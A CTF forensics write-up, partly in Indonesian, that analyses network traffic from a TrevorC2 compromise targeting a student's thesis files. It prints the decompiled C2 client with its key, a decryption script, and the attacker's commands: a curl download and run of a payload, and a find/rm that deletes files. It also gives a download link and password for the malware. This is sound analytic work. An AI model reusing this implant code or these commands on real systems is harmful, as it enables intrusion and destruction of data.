



> Temanku iri karena aku mengerjakan tugas akhir kuliah lebih cepat darinya, tolong bantu analisis forensic artifact ini dan jawab pertanyaan yang sudah disediakan
>
> > Selalu gunakan sandboxed environment untuk menganalisis forensic artifact
>
> nc 165.232.133.53 9081

---

This forensics challenge involves analyzing artifacts from a compromised system where a threat actor appears to have targeted someone's thesis project out of jealousy. The challenge requires answering nine questions by analyzing a network capture and related files.

## No 1

```
Question: C2 server yang digunakan (Case sensitive)
Format: -
```

The first task was to identify the Command and Control (C2) server used by the threat actor. By exporting HTTP objects from the provided PCAP file, I discovered a binary file named `client`. This binary appeared to be the malware used in the attack. To analyze it further, I extracted the Python code using `pyinstxtractor`, revealing the following code:

```py
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: trevorc2_client.py
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

SITE_URL = 'http://192.168.56.102'
ROOT_PATH_QUERY = '/'
SITE_PATH_QUERY = '/images'
QUERY_STRING = 'guid='
STUB = 'oldcss='
time_interval1 = 2
time_interval2 = 8
CIPHER = 'aewfoijdc887xc6qwj21t'
import requests, random
import base64, time
import subprocess
import hashlib
from Crypto import Random
from Crypto.Cipher import AES
import sys
import platform

class AESCipher(object):
    """\nA classical AES Cipher. Can use any size of data and any size of password thanks to padding.\nAlso ensure the coherence and the type of the data with a unicode to byte converter.\n"""

    def __init__(self, key):
        self.bs = 16
        self.key = hashlib.sha256(AESCipher.str_to_bytes(key)).digest()

    @staticmethod
    def str_to_bytes(data):
        u_type = type(b''.decode('utf8'))
        if isinstance(data, u_type):
            return data.encode('utf8')

    def _pad(self, s):
        return s + (self.bs - len(s) % self.bs) * AESCipher.str_to_bytes(chr(self.bs - len(s) % self.bs))

    @staticmethod
    def _unpad(s):
        return s[:-ord(s[len(s) - 1:])]

    def encrypt(self, raw):
        raw = self._pad(AESCipher.str_to_bytes(raw))
        iv = Random.new().read(AES.block_size)
        cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return base64.b64encode(iv + cipher.encrypt(raw)).decode('utf-8')

    def decrypt(self, enc):
        enc = base64.b64decode(enc)
        iv = enc[:AES.block_size]
        cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self._unpad(cipher.decrypt(enc[AES.block_size:])).decode('utf-8')
cipher = AESCipher(key=CIPHER)

def random_interval(time_interval1, time_interval2):
    return random.randint(time_interval1, time_interval2)
hostname = platform.node()
req = requests.session()

def connect_trevor():
    pass
    time.sleep(1)
    try:
        pass  # postinserted
    hostname_send = cipher.encrypt('magic_hostname=' + hostname).encode('utf-8')
    hostname_send = base64.b64encode(hostname_send).decode('utf-8')
    html = req.get(SITE_URL + SITE_PATH_QUERY + '?' + QUERY_STRING + hostname_send, headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko'}).text
    return
    except Exception as error:
        if 'Connection refused' in str(error):
            pass
connect_trevor()
pass
try:
    time.sleep(random_interval(time_interval1, time_interval2))
    html = req.get(SITE_URL + ROOT_PATH_QUERY, headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko'}).text
    parse = html.split('<!-- %s' % STUB)[1].split('-->')[0]
    parse = cipher.decrypt(parse)
    if parse == 'nothing':
        pass  # postinserted
    break
except Exception as error:
    if 'Connection refused' in str(error):
        connect_trevor()
    else:  # inserted
        pass
except KeyboardInterrupt:
    print('\n[!] Exiting TrevorC2 Client...')
    sys.exit()
```

The internal filename `trevorc2_client.py` and the message `Exiting TrevorC2 Client...` at the end of the file clearly indicate that the C2 server used was TrevorC2.

Answer: `TrevorC2`

## No 2

```
Question: Key yang digunakan oleh C2 server
Format: -
```

For the second question, I needed to identify the key used by the C2 server for encryption. Looking at the code, the key is explicitly defined at the beginning:

```py
CIPHER = 'aewfoijdc887xc6qwj21t'
```

This key is used to initialize the AESCipher object for encrypting and decrypting communications with the C2 server.

Answer: `aewfoijdc887xc6qwj21t`

## No 3

```
Question: Perintah kedua yang dijalankan oleh C2 server
Format: -
```

To identify the second command executed by the C2 server, I wrote a Python script to analyze the network traffic, decrypt the commands, and list them in order of execution:

```py
from scapy.all import rdpcap
import base64
import hashlib
import re
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

key = hashlib.sha256(b"aewfoijdc887xc6qwj21t").digest()

pcap_file = "capture.pcapng"
packets = rdpcap(pcap_file)

# group by TCP stream (src/dst/ports)
sessions = packets.sessions()

cmds = []
for sess, pkts in sessions.items():
    data = b''.join(pkt["Raw"].load for pkt in pkts if pkt.haslayer("Raw"))
    # find all oldcss=... tokens (across reassembled data)
    for b64val in re.findall(rb"oldcss=([A-Za-z0-9+/=]+)", data):
        raw = base64.b64decode(b64val)
        iv, ct = raw[:16], raw[16:]
        pt = AES.new(key, AES.MODE_CBC, iv).decrypt(ct)
        cmds.append(unpad(pt).decode("utf-8","ignore"))

for i, cmd in enumerate(cmds, 1):
    print(f"{i:02d}: {cmd}")
```

This script uses the key discovered earlier to decrypt all commands found in the network capture. Running it produced a list of commands, with the second one being:

```
01: server::::id
02: server::::whoami
03: server::::curl http://192.168.56.102:8888/m -o m
04: nothing
05: nothing
06: nothing
07: nothing
08: nothing
09: nothing
10: nothing
11: nothing
12: nothing
13: nothing
14: server::::chmod +x ./m
15: server::::cd Documents/tugas-akhir && hg remove flag.enc
16: nothing
17: nothing
18: nothing
19: server::::cd Documents/tugas-akhir && hg commit -m "remove flag hahaha"
20: nothing
21: server::::find Documents/tugas-akhir -type f -name '*.*' -prune -o -type f -print -exec rm -f {} \;
22: nothing
23: nothing
24: nothing
25: nothing
26: nothing
27: nothing
28: nothing
29: nothing
30: nothing
31: nothing
32: server::::./m
33: nothing
34: nothing
35: nothing
```

The second command executed was `whoami`, which is commonly used by attackers to determine the privileges of the compromised account.

Answer: `whoami`

## No 4

```
Question: URL lengkap tempat threat actor mendownload malware
Format: http://gemastik.ctf/example/path
```

From the list of commands executed by the threat actor, I could see that they downloaded a malware file with the following command:

`03: server::::curl http://192.168.56.102:8888/m -o m`

Answer: `http://192.168.56.102:8888/m`

## No 5

```
Question: Jenis enkripsi yang digunakan oleh malware (https://drive.google.com/file/d/10zK16LpksXP-6j7tLHjXXBswKoavi0J3/view?usp=sharing. pass: infected321)
Format: -
```

For this question, I was provided with a link to download the malware file `m` for analysis. After downloading the file with the password `infected321`, I extracted its Python code using `pyinstxtractor`, similar to how I analyzed the client file earlier. The extracted code revealed:

```py
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: m.py
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

# from pyarmor_runtime_000000 import __pyarmor__

from pyarmor_runtime import __pyarmor__

__pyarmor__(__name__, __file__, b'PY000000\x00\x03\r\x00\xf3\r\r\n\x80\x00\x01\x00\x08\x00\x00\x00\x04\x00\x00\x00@\x00\x00\x00\xc0\x0f\x00\x00\x12\t\x04\x00\x1f\xae\xf5\xec\x98x_\x8f)\xd0\x9f4\xf9\x03\xea2\x00\x00\x00\x00\x00\x00\x00\x00:\x9a?\x8c\x10\xc0\xc9\x7f\xa9q/\x05vv\xdcrD\x97\xcb\xa5*L\xa4\xab\xf4\xa1\x81\xc9\x9c\xd0zN\'\xac\xa3`\x8c\xff@\x1e{\xaerR:\xb4\xcc~?\rT\xd3H"L\xc6\xe5\xf1\xc6\xba\x1f\xd5}\x8f\x11\xdb\x01\x920&l\xed\x07c\xd8\xf4\xd7\xf7\x00"\xc7+\xb0z]\x11\x85\x18\xe0}v\x1b\x19\xb2eCJcgN\xba\xd3\x02\x9d\x9bC]\xcc\x82\xdcSF\xb0\x1c\xe3=\xd7H\xc0\xb7?\xce)\x8ew\xc0X?\x12cQ\xc6V\xc9\r\x98\xdda%\x91\xd6\x87\xac\x99\x01i\x1e\t\x92\xce7(|2\xd6\xa5\xc3\xb6(\xae)\xae\x12\x95\xc0\xf7\xf3\x9d\xd6\xf0\xcc\xd9~\x00\x8aj\xa6[icVSa\x8b]\xd4\x8b\xa1\xb6\x91\xb9S\xb5\xf5z\xdeO\x0c\x00#; \x96k\x06\x948\xea\x9a\x10\xe3\xc6c\x8a\x9b)\x0fm\x1b\x1a\xa3\xda+\xdfC\x9et6w[\xc1\xbd\xf3\xcd\xa3\xba\x81F\xb3\xae\x8dU\xf9\xf7\xfd\x86_\xb0e\xb3\x82,\xbc\x85\x05+6n\x8d\xa8N\xac\x11\xfb\x9c\x07\xf48\xc9\x00\x8aZ\x92C\xd9\xe0:\x83\xed c1\x97k?u\x84\xbc\xf2\x7fE\x85^\xf6\x02\x00{\twZ./c\xadn)N\x8a\x82P\xba\xc5)\x0c\xaa\x9f\r*+,~"\xab\xa8\xe34\x04`Z\xcdw\xbc\x9c^\xb1\x1b{m\x19\xef\xbe\xe8id\x8e\xe9\xca\x89\xdaz\x84D\x06\t\xbe\xde\rZ6\xfc\xe8X\xb4\xcbXMm\xe5\xec\\\xd0\x8f\xddE5\xae\x1fx\xed\x9f\xc7\x88\x083|\xcb>A\xcd\x90\x15l\\\xf5\xbc=\xd5R\xb60\x9e\xb0\x86\x94n\xa7\xeb\xeb\xac\xedr#<p\x0f\xa5\xea\xca\x16/;\xb9\xce\xc2\xc2\x93\xd8V<\xcd\xb0~\x8b\xd3\xb8\xfbW\xc4\x8f\xdb\xdd~\xe9L\xf8\x97K\xdf\xbd=\x0e\xd6\xd2\xec\x00\xb8\x04U\xbb<\xd4F\x97m&\x17\xe3\xb9E6\xb2\x88\xda\xf4\xe7r\xde\xaa\xb1,An\xe3\xd1\xbcA\xa5\x19\r\xe7\x8f\xe6\x975\x02\xc3\xb0w|R\xb6\x9f\xdd\x98+\xe34D(oj\xd3\xc44\xa4i\x93\xa3\x1e"\xc6\xef\xbe\xc2\xda.Ey\x19)\x1e\xd7*7\xe4_v\xf1\x1b%\x87\xeax|\xef\xe9\xdf\x05\xc7\xf6\xe4\xaci\x06\x998\x17\xb49\xc4\x95\xf8S\xf4L\xd7\xdc*H4\xb7`\xc5zf,(}\xef\xc5\xe6\xde\xbf\xe2N\xdd\x9a\xe2\xada\x9cyv\xb2\xc4\xb3\x87\xa9\xec\xc6\xf9\xa7\xb6>^\xf5\xa1\x1e2\xa9\x91\xdc\xf2\xd4b\xf4Y\xf2s\xd3\x0c]\x10\xaeu\x94\x05\x80\xd3\x855\xb9\x86t5:\xddN\xb7\xc65\xbf\x86\xa7u\x19\x07\xa7f\xd8?\xa7n\xb4(\xfb\x1a\x11\xbf\t\x19e\x047VK\x07\xfc\xa8,\xf1\x80^X\x8f\xf8\x98P\xfeL=\xaf\xd7\xd8\x83\xf0O\xef\xdbf\xbc\x8eB{]\xcd~\xd5\xe7\n\xde\xc0\x8e\xa3\x92\xf9\x15F\xb9\x8cVD^\xa0\x1c\xcf\xb0\x1d\xf04\x89\xb4\xe4\xab\x0c\x1c\xbf\xa8\xeb\xdc\x15:\xe8n\x1a\xeb\xc3\xc1\x99\xf4D\x1fp\r\xc0\x0f8\x04\xf8\xf6d\xb8A\xeb\x88\xa7\x97\x93Qz\x12\x15\x02\xef\xd6S\xbfr\xe4\x93\xff\xdb\xfb\x92c\xf8R\xadhP\'\xdbN\x01NR\xa0\xeb"\xb9(\x1d\xd9\xa7e\xdb;Oo\xfa\xc77\xd2\\\xc9\xa3"\xf8\xd3\xba\xfd{\x0e\x1c[\x87\x86\xf26X,\xee\xdc\xf7\x8c\xeb\xc2\xcep\xc1\xd9\x9c\x84aL\xbc\x95\xaa\xb3\xe6"\x08\x95\xe2\x158\xfe\xd5\xc5\x1d\xf6\xe2\x1f&\xa3\xeb\xa4\xc6\x10\xe4\xce^\x96wIG,y\xf8\xb2\xb27\xa1A\\dO\xda\x8c\xceW\xdb:v\x87\t)\x85\x9e\xf9\x87\xfc\x1c\xa8\xd2\xaf]\xcd.=\x9d\xc8\xce\x84\xe3\x97\x9d\x82\xea\x827\xb0\xb3D\x02\xacz^W\xbfXJe"E\xd2\xccjM\x8a\x9a\x0f\xf9\xc1\xb2\xbf\xee\x1df\xbeW\x86\xaeB\xf6q\x98\xfe\x89:a\x9cg{B*\x05\xe8\xdf\x14p\xe0F`z\xd1\x80-\x80\xa6\xbe$\\jp\xd1\xdbbL\xe5\xcd\xe4o\x9d?T\xc4\xfa*\xcb~\x93\xe5\xce\xd7\x84\x95\xa1S\'\xf7M*^\xb2\xde\x00}\xda~\xe83\xf8\xdc\xb5xePd\x90\xc9m\xd4\xaa\x93\xaa\x84\xa4\xac\xd3\xff\xc7/\xf2\xa8Je\x0c\xe7\x1cJv\x08\x02\xceU}\xae\x0b\xe1$\xf0\xd4\xc7\n\xe6rK\x1c\x84\x91|\xf0\xa7\x1d\x7f\xac\x10(k\xf7\xaf\x94\x87\xf5|j(fKyd\xc1\xef\x0c\x83\x82\xb1\xa3N\x07\xa1B\xad\xd5\xf5\xf9G\x98}7(\x8e\xe8\xd1Y\xb0\xb3\x8d\x87v\xcc\x84\x9f\xd56\x8d-*\xc2\xa1\x10U\xb2\x16\xdc\xaae\x9b\xb5lM\x03V\xce\x7fY\xc2\x08$\xa8g\xaf\x0e\xdcL\xa1\x1c^\xe70\xf7\x1a\x15\x8bb\xda\xab\xaf5\x7f#B\x98\xc8|N\xcfw\x10z\xef\x1c\xfbG\x87\xf6\x8f\xe7\xcc?&\xa3\x8fKb\xba\x97X\x1br\x15\xca\xc7\x96mS\x11\xf6\xf6ec\x91&\x95\xf7bf\x06\xf7F:w\xaf.Vh\xc8\xc7J\xa7DV\xf0N\xf6_\xbf\xcbR\xe0\xbe\x10H\xf1\nc\xbb\xb1\xb1\\\xfd\xaaT\x86\x98\x17 \xc2=\xa4yC\x1e?B=\x9c\xb6\xed\xa1\xa2S>?\x98\xdeG\xa4j\x1d\xb8&\xf9\x15f\x199\xe5\xb1\xcf]\xc2{c\x85W6.\x14U\xee*\xa2\x8c\x85\xd9\xe3\x953&t\xd4\xc1\xfe<\xbf\xd9\xea\xf0\xcf\x12W\xf0\x15\xd6\xf0\x0f5X47\xc4\xf7@\xaa\xa1z-CD\xc9\xa8`\xf0\xdf\xdety5\xe1m\x18\xc2\x16\x06\xac\xc5\x9f\xca\xb3\xa5\xb6\xd9\xbc\x8a\r\r\xacW\x7f\x18[\xfe\xbf\xc3\xe5\xdf#7\xe9\xad\x8b\xab\xec\xae\xae\xe5\x1a\xd6Ai\xcd\xd2[\xa3-\x1c\xe5sM\xa4r\xc3h\xdd\x1d\xc8\xffw\x96\x05\xb5}\xf0\xda\xb2\x16<\x04\x1fCk1\'\xb9\xb01\xfd`/\xb9_\x8a\xb7Y\xdb_\xca\xb5\x0c\x99\xce\x9d\xfdO7\x88\x16%@\xc3\x07\xd5\'\xda\x05\x9b\x12\x9d\xbdr\x0fN\xd0\xd704A)\x01\x80,\x884\xcb\x9d\xfa\'\x90>\xb4\x92\xa2\x02c]QP\xf7\xf0\xaa\xd9\xc6y9\x91\x93\xd5\xf6\xff\xc3\xd9\x8dJ\x05 \xa7O\x951\xaf\xaee\x8b\xd3\xe3\x7f\xdf\xe1\xa0\xe6\xc1\x16\xb3s\x95\x9fpr/*\x0fV\xd4\xbe)\xa6\x13\xd9w\xb5>\xe8L]\xf3^c\x04\xa5xF\x99vtMD\xdc\xf4\xaf\xe6\xdb3\x90\xbcb\xe7\xa75Z\xa5\x1b\x1e\xf02\xea\xddO\xfa\xb4\xb7<\xf3\xa6wC0x\xb1\xcb\x18K-O4\xc3,\xb4\x96\xe2+\xe7\xf0\x91oKD\xf1V+\xdb\xedL%Y\xeb5io,:\t\x06\x9b<3\\J\x00\xac\x19\xa1\xce\xaa\xf2c\x04\x01\x92>M\xe9\xa7<\xb7\xfeF"\xef\xdf\xeb\x7f\xbb\x8b\xaa\x0fv\xc5]\x0b\x84x\x0b\x90\x83\x80z\xda\xc2w\xa0\xda\xa31J\xa4\x92\xc4\xfc-\r\xfe\xcay{f\x9d\tU8U\x9d\xd9\xffG=\x90\x10\xffZ\xa6\'?\xdf\xe6\xbe\x86gIZ24\xdb\xa9\xc7\xa5\xf3l=\x15f\x83R \xf4[\x82T\xb71\xe0\x87\x8d\x01/\x81\xefFX\x01\x17\x8dg\x16\x92\xb4\xe6A\xa2\xf9s\xd57_*E\xa8Tz\xcf\xfd\x16\xc2E\xa9N\x8d\xfb\x87\x97v0\xcc\xae=\\%\xc4\x99\xa7\xb7\x07\x917\xa6\xa3\xd4\xbe%\xad\xfeT\xcb\xebL+\x03\t\xa60\x92x\xd9+gK\x0c%\xc5\xd6\xf1yn\x82h\xda4\x0c\xe69\xe0f\x06\x93\xcc\x14i\x85\x1e\x7f\xb2\x85\r\xe4\xd5\xc2m\x13\x05\xb6r\xe3Q\xb6\x0e-\xca\xb6RX\x06\x84\x85\x83\xf1\xbf\xc8\xb7\xb4*\x8cFHq\xbe\xf1\xe7\xf4W\xcd\xaa\x0c\x10\xbb\xa4Qi\x88\xf4.\xa6<5\tc\xce\x97\x9e:\xce`5\xcc\xfcu\xbe\xf2 \xec\x0f\xcd\x88\x02\x87mK\x85\x99R\xbb\x13\x02A\xf4\x12ms\x11\xfd\xc4\xf37\xed\xfc\x84u.9\x03\xe4R\x8fm\xd3\xf8\xc1\x7f\xbbq\xef\xbb3\x0f\x7f \xe3\x11\xc77\x811\xe70\x10\xdc\xfb\xaa\x08\xa2 \nv\xee\xc0\x16\xb6U\x08{t.L~\x17c\xf7\x04\xa8\xfbB\xe5H\xd4\x89\x07E8\x90\xe3\xd8\xe7\xd1\t\xbaw.\x93T\xaeq\'\xb3\xabYv$w{\xbc\xc3?\xfa\xde\xdb"\xf5\xe4~f\x9f7y\xe9\xca5|\x97\xe9\xb3A\x16\xc7\x08^\xb9\xeb\xce:S8\x17\xd37\xa6\x18g\xe2Z\x18\x8el\xe3\x1ad\xc3C\xd1\x06g\xb0r\xffo8\x90\x0e\xc86%\xd3\xe4\x08\xb3\xe5@\x1eS\xe0\xee\xa2\xae\x81lt\xeb77i\x0b\xc6\xc8\xe6n\x00\xe9\x1e\xd4.\xdc\xfa\x83\x0cg;\x8a\xc9\x8e\r\x0f? \x18\xd81 \x1c{\x83\x1d\xfbs>\x8cK\x1b\xb9\xf39\xeds\xf1"\xc0\xab\\tzu\x0e6\x8e\'b\x9d\xe4\xd9D\x9b\x95\x92\xa6\xf4\x10\x05y\x8d\x11\xb8\x00i\xa3\xb2A\x91V\x15Z\x8c\xc8p\xca/h\xaf\xb8\x9f\xcc\xd4\x14O`Rg\xf5\xa2\xbd\x07\xa1\x81&+w~\xa1\x06\x0c\xf2\x83\x92b\x0b\x80\\\xbe\x88\x92ZOY\x82z)\xa1\x07\xc1\x00\x95\xb0[\xe7\x0b\x95\x03\xa7\xcb{\xec\xa7\xfdA\xdaT\xc5\x84\x9b p\xfe\x08\xf3\xfa\xbf\xc1\xec]\xbb\x9e!p\xf2\x00\x1e/\x97&\x8cM\xaf\xd9[z\xd4\xc9:\xcc]\xbd\xe7Qd\xcb ^\xe6h\xbdT\xa1\xfbB\xd3\x9fVQ\x9aB\xf5\xbc\xbb\x1cNaJphk \x86\xa7\x13|!\x11CG\xf5S\x80\xc3\xf8\xb0\xfe\xa2\xeb&\xfd\x91\x0e\xd6F\xaeo\x86a\xe4\x9aTg\xde8\xcf7Q\x9b\xb1\xc5D1\x04\xe9\x0bjBD\xf9%\xb0.\xf4\x0c\x02\x01\xbf\x97\x99.O\x9fM\xa9\x99\xbe\xbbZ\xce\xd9\xf9\xc5\xc7/4\x0ba\x1d\xac`(\x07o\xc7\xd7J\xa44\xf2\x10\x876:\x06v\x87?!\xc6F\xa4P\x9b^-\x8e8\x0c\xa0\xb5\x8f[\x18>\xd0?\x8e\xe7\xeb\xea\xc8,\xd5\x9e\xec\xbd\xeb\xcb\xfaZ\x19\x01\xa9\\\t\xfb:\xb9\x8aD\xa2\xad\xe2\xea\xb0\xfb~cnq\xec:\'Z\xef\x90l\xa4G"1h}\xd2s\x9eH\xb8\x8d@\xb2@`\xba7\x90\xd2Ta\x11\xcc\x88\xe0\xb5\x82\xb63/oZ\x08773{\x0bu/\xf1\xe4{\x9a\xfc)\xa9\x95\xc6\xbc\xb1\x8fS\xf6\xb2\xaa\xe8 \xaa{\xc4J2\xa2\x0c\xa0\x00\x16\xa4\xf0\x06U\xfb\x89\x8e`OJ\xec\xbd\x9au*\r\x02[\xaaN\xe7^\x16\xa8!\x1b,\'\xe8\xb2Z\rv\xb2\xa14:\xa5\x00\xeaL-\x8c\x0f\xc8\xbd=v`\x98\x03\x9a\x140&\x10\x91\xea\xda\x0e\x9bHy.k\xbcv]\x13\xa8\xf6\x12\xdeK\xc9\xef*\r\x98h\x93\x08B\xb7\xbdM\x99\xf8\xd5\xa2\xea\x11\xa2\x92\xb0d\x8fv\x13\xdd\x90i\xe9\x80.D\xc8\xf2\xacW\x9b\xea\\\xa0\x86\x7f\x89=j7\x9b>}\xec\xd3\x9d\xa7d\xef[\xacv\xa5w\xe3k\x1b\xec\x1e\xa9\xd91\t\x19\xa1\xd5\x13\xa6@\xab\x9f\xba\x86\x98\xdf\xa7\xc8NO\x00\xcc\x96\xf0\xa9\xe8\x96\x9cN\xaf\xd7BXa\xa8OGa\x01\\\x92EU\x0f\xaa\xf2\x8e\x98(X\xcda\x91\x0fl\x1a\x9c\xcb\x96\xb0\x82\x9ck\xfe\x85\xa6-\xa8\x1a{\x031\xbe\x11\\@\xfd>ct\xacc\x04Y\x82\x96\xa7_d\x8b;\xa2\x86R\xc9\x19\xd1\x85~\xaf\',6f\xa1\x82)\xc5\x8b\xee\x94\xf4X\xf8\xf7K\x9f|M_\x19X\xd8&\x92\xc0\x02l\xa3!n>K\xdf\xac\xb8\xe8\xad]\xe0\xce\x0bu\xee\x99P\xdc\xd3\xd9\xa8\xc5\x0c\x963/\xd6Y0\x1c\xc2\xc5\x8e\x03\x03J\xc1\xfd\xff\xdd\xf1\xd10$\xc8W\xfd(6\xefo_7}Bm\x0cy\xa7\xb1e"\xd6\xcbZR\x91\xdeO\x10\xcf\xc073\x84}\xbe>W\x92\x1c\xb1x\xfc0\xa0I[\x17\x05\xfe\xfc\x0cY3\x9b&D\x9d_\xc4$4<[5\x1d\xca\x02\xb6\x8e1\xf2?i\x17\xd5+\x98\xa16\x8b\n\xa4\xddZ\x8f\x02v\xb3\xe7\x8c\x98@\xc0\x17\xfd\xcf|\x87U\x8e\t\x1d\xde\x82md\xbd%\xee|\xc3\xed\x17\x84\xd3\xda\xbev\x91\xb2\x8e\xf9G\xba\x96\xab\xe2[\xdcN&\x93\x97.^\x9f\xa7q\x9cj\x18Z\xf5\x13S\x8f\xd6\x15\xfcv\x05mP\xa4\xf3\x9dE\xa8\x8a\x16\xe9\xb7\xa6\xad\x7f\xa3?\xc4u\xac\xd6\xbf\xaf\x86&\x14K\xcd\x08\x9e\xfb[7\x16\xeb\x19\x93\xfd\xb7X\x15\xb4\x94N\xb5\x8e\xd2\xc0\x0f\xbb\xe0{\x0e\x8e\x9evu\xaa\xdcI\xf3\xd31pK\x01P\r\xeaA\xa7\x8d\xec\xf5\x07\x01\x9a#\xfat\x00\xb2;p-f\x05sz\xf4w\xe6z\xc8\xa1\x9c\xf7y\xe4\xac!\xb4fkf+\xaa\xaf\x94{\xc7P\xecB\xa8\x84!\xa4l\x02\xf9\xe9\xd9\x19\xaaj\xc1\xcc\x87A\xf9@l\xe7\xfb\xfd\xe4Xt\x16\x00\x05IG\xf1[OI\\\xfc\xf4\x97C\xf9\xc7\xbd\xa4p\x91\xa9\x1a8\xeb2\x91\xcb\x8cEa\x99o3\xec\xfaBM0\x0c\x95\x9e\xa5\xc6\x8a\x17\xcb\xfb\xa1\xa9\x12o\x93\x8a\xe4\xa35\x8d \xe9\xd7\x03\xdf\xd1?\x08.f\x8cWn\xba\x11\xdd\xc3\xc2p\xf6\x9dn\x0e\n\xf5O\x12\xd8\xce\xfc\xae\x91\xa4`\xb6\x07\x7f\xb1\x93\x901\x8d\xb9j\xc64\x8e\x15\xa3\x0c\x83\x1d\xf7~6Z\xe7\x81\xb7\x1f\x03\x15g\xee\xb5l5\x17\xc1\\\xab\xbc\xaf\xaf\xb2\xaa\x10,2\x8e.\xcd\xdf\xe9\x8e\xcd$\xf1\x1c|\xcc\x08G3\xa1\xb1\xf5\xa9\x01\xea\x8e\x84\x0c7=??M\xcf\x06j\xa69\x05z\x8e\xf1M\x12f\xde\xb0\xdb\xf0I\r\xcebP\x95\xff\x85\x1e\xa7\xf7\xd7\x02\xb3\x0e\xcb\xe2h\x80\xa7\xe0\xc1\x17\xc6\x99\x9c\x9aX2N\x04\x9f\x9f)\xd58F\ny\x91\x18s\x1e<\xbc\xcb\xf7x\x1a\xfc\x17\xd9\xfe4\xcf\xcb\x0fP\x05x\x8b\xd55\xca\x8c !\xe7\x8f\x0c\xf1\x1c\x94\xa4])\xd3\x14\xa3\xe8\xe6\x15\xd5\xa6\xfcr\xf3\x8d\xa7\xf9dc\xabQoa\xd4\xdeO\xe0\xd7\xd7{\xdd\xaa\xd8\x9c\r\xb6\xed\x16\xfc\x06\x7frn\xaf\xd0\xf1\xe1l8\xf5\xb9\xcd\xd7t\xab\x08v\x96\xc6U\x81\xe3~P\xbf\xba\x0fY\x90\x9c\xad\x9a\x7f\xa3\xfbm~9\x8e\x8c\xa5\xe1\xf9\xbf\xe9\xf8\xa2\xae\x10{\x86\xc8\xee\x92\xb2\xa6\xc19\\\xcb\x983\xe3kKE\xa8`\xca\xf7\x14@\x83\x9f:\x83\xdb\xbcs\xc3\x1f\xfch\xde\xc17D\xcb( \xe0,\x1a\xf64V\x9e\x9d\x99\x16m\x08\xb7p\xf5\x07\xf4\xf2\xd2\xd7\xe4K\xe9\x8e\xf7\x1c\xf1\xb4\xa2\xd3U(\xe0f\n\x05\x05<\xa0<+WO|\x81\xb9\neo\xbb\x05p^K\xb2t`\x08\x98\xe5:+\xb2\x83\xb1\xcd\xab\x1d\x96*\x13\xbbZ>>\x0e\xb1o0zK\xa3\xfe\xc8Z\x11Y9s\xa5s\xa0\x81\xc2\x15\xd2K\x16\xd2a,"A\xdbF,\xf6\xe70\x07\x13\xb1\xa9\x152cQ\x19KZ&\x14\x9a\xab\xfe\r\xa3+\xd5\xb1d\x12\xe7t\xec\xa6\x83\xd8\xbe{\xc7a\x88\\i\xa4\x86C*}\xe4\x0e@f\x010\xe2+>\xbc\xa3@A \xbe\xd0\xd1\x8c`\x0e{e\xaf\xfd\x96\xb7\x89\x8f\x15\x8a-(\xe7\x9c\xb5.\xeb\xc6\x10\xa3G\x1f\xf2c\xaeh\xb8#\xfa-\xb7\x00\xab;\xfe\x19j\x8c\xff\xa3t\x87\xd9F\x7f\x9bH\x90\xc6\xc1\xf48\xe4\xd9\xd5\xd4\x9b\x9b\xb9\xa0\x02?\xde\t\xd1G4z\xd9}\x81{\x0e]U-T\xdf\xfeQ\x95\xca\xb9\xd0:\x01^\x81\xe6\xdf\xca\xc3\x8a?\xe4\x05\xf1xE\x1c\xde\xa8\x0b\xbe%/\xe9*\xc9\xa03<7\xcdXx\xde\xf7\x80\xb3:\xb2\xd0$\xa6\xe3\xc7\xcbT6\xfa;D\xddeD#\x18\xa2\xae\xf3\x92\x1b\x0c\xf8>\x87\xe7q\xcb\x8em\xfe\x9e2\xa6<\xf2oK\xde|\xaal\xfc\xcd\xc1\x98\x80oa\xee\x9b\x93\x88\xf7\xf9\x13\x1fj\x165\x0f\x04\x9c\xc4\xa2\x82\xfd\xfa\x9af\xb1\x82yE\x1d\xc8\x1e\xfc\x8c\x00\x0e\x99\x87\x90?\x98w\xc1\r,`\xb1\xaa\xea\x1b\x0b\x08\x19\xb4\xb2\xa5\x0e\xb8:\xf6k\tv\xcc\xd5\x14:\xc0\xbfc\x1c>L\xab)\x8b\xf9\x13\x1a\xd6FOt \xfa\xd7\xac;\x10\x02\x98\x96\x99\xfdCZ\xa30\x7f\xa360\x1c\x99\xbf\xaa1&G\xd5\n\xf3;\x9a5\x026\xe5\xd0\xc7\xb5x\x8d\xd3\xc8\xa1\xad\x82\xe4r2\xadM\r4\xab\xff\xf2\xdeK9UZh\x1d\xc6\x08\xcaU\x80\x14\xfc=\x93\xc6%H\xc8\xe9Q?N\xef\xb99f\t\xd3\xaa]7\xc9\x98\xa15\xaf|\xe0\xfd\x99Z.\x0eTa\xd2\xa5Q\xbc(S=\xf3\x8af_\x14\xc5%')
```

